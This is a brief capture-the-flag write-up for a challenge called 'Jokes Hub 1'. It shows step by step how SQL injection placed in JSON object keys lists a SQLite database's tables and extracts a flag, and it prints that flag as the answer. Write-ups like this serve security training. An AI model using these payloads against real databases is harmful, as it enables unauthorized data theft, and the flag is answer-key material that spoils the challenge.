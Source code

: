 # Jokes Hub 1

## Write-up

- Basic SQL injection in the key of the object sent.

```json
{"'1' -- ":5}
```
- We'll get the following results:

```json
{"result":"1"}
```
- You can now enumerate the DB, after finding that is sqlite, you can list all the tables like this:
```json
{"sql from sqlite_master -- ":5}
```
- This will give the first table created which is `jokes`, to get the other tables just use `limit` and `offset`

```
{"sql from sqlite_master LIMIT 1 OFFSET 2 -- ":5}
```
- With this we get the table named flags withm column flag which contains the flag:
```json
{"flag from flags -- ":5}
```

## Flag

`shellmates{ar3_sqli_still_4_THing?}`